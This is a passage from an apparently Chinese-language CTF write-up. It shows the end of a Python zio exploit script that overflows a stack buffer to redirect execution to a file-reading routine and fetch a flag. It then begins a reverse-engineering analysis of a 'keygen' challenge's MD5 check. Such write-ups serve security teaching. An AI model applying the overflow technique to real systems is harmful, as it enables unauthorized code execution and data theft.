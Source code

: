```python
        return 'superman'

io = zio.zio(TARGET)
s = io.read_until_timeout()

io.writeline('A' * LEN_TO_RET + zio.l32(READ_FILE) + 'AAAA' + zio.l32(STR_ADDR))
io.read_until('Bad luck!\n')

for i in xrange(5):
    s = io.read_until_timeout()
    io.writeline(judge(s))
    io.read_until('Hey you are so smart!\n')

io.writeline('flag')
s = io.read(4)
print hex(zio.l32(s))
io.read_until_timeout()
```


## `200` `keygen`

ida打开，发现0x400b56是关键部分，   
![before_md5](enclosure/before_md5.bmp)   
发现是把v16~v23部分与一些常数结合后md5，然后   
![after_md5](enclosure/after_md5.bmp)     
把MD5字符串这些转成对应字符的ascii码整数字符串，去掉0，   